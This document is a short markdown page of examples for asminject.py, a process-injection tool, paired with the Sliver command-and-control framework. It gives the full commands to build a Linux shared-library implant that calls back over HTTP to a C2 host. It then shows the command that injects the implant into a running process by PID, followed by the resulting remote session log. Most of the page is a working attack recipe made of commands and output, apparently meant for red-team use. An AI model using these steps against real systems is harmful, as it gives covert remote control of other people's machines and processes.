 # asminject.py examples - Sliver
Examples related to [Bishop Fox's Sliver C2 framework](https://github.com/BishopFox/sliver)

* [Create and launch a Sliver shared library implant - libdl](#create-and-launch-a-sliver-shared-library-implant-libdl)

## Create and launch a Sliver shared library implant - libdl

If the Linux distribution you're operating in uses a version of `libc` that loads shared libraries by calling the `dlopen` function exported by `libdl` (Debian and its derivatives such as Kali and Ubuntu, etc.), you should use the `dlinject_threaded.s` `asminject.py` payload to inject `.so` files into the target process.

For example, generate a Sliver implant binary for Linux using the shared library format, with the option to run at load enabled:

```
[server] sliver > generate --skip-symbols --http 192.168.0.45 --os linux --format shared --run-at-load

[*] Generating new linux/amd64 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:00:15
[*] Implant saved to /home/user/IMPORTANT_STRANGER.so
```

Inject the `dlinject_threaded.s` payload into the target process, e.g. for x86-64:

```
# python3 ./asminject.py 93421 dlinject_threaded.s --arch x86-64 \
    --relative-offsets-from-binaries --stop-method "slow" \
	--var librarypath "/home/user/IMPORTANT_STRANGER.so"
```

Observe the session:

```
[*] Session 8a470c38 IMPORTANT_STRANGER - 192.168.0.45:35804 (kali) - linux/amd64 - Tue, 05 Jul 2022 16:59:10 PDT
```

